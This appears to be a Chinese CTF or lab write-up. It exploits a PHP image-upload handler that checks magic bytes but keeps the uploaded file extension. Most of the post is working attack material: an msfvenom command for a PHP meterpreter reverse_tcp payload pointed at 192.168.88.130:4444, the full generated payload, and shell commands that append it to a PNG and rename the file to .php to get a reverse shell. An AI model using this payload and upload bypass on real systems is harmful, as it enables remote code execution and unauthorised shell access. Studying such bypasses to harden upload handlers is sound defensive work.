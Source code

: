 ```
    $file_name = $target_dir . basename($_FILES["file"]["name"]);
    $uploadOk = 1;
    $imageFileType = strtolower(pathinfo($file_name,PATHINFO_EXTENSION));
    $type = $_FILES["file"]["type"];
    $check = getimagesize($_FILES["file"]["tmp_name"]);
    if($check["mime"] == "image/png" || $check["mime"] == "image/gif"){
        $uploadOk = 1;
    }else{
        $uploadOk = 0;
        echo ":)";
    }
  if($uploadOk == 1){
      move_uploaded_file($_FILES["file"]["tmp_name"], $target_file.".".$imageFileType);
      echo "File uploaded /uploads/?";
  }
}
?>
 
</body>
</html>
```

给了我们上传文件的源码，通过审查我们发现，只允许上传PNG或GIF格式的图片，校验方式是校验文件内容（实际校验的是文件开头几个标志文件类型的字节，PNG格式为0x890x500x4E0x470x0D0x0A0x1A0x0A，GIF格式为GIF98)，没有校验文件后缀;然后通过校验的文件会保存在uploads目录中，但是文件名是一个随机生成的md5值，而后缀保持上传文件的后缀不变....
所以我们可以先做一个图片马，主要是反弹shell的马,我们利用Metasploit来生成：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.88.130 lport=4444 -f raw
```

![818602_PSD29T2Z29J3TXN](/blog.github.io/images/818602_PSD29T2Z29J3TXN.png)
把生成的payload：

```
/*<?php /**/ error_reporting(0); $ip = '192.168.88.130'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

保存在hack.php中，然后随便找一个png图片，将hack.php添加到图片中去,然后将png图片后缀改为php：

```
cat hack.php >> best.png
mv best.png sir.php
```

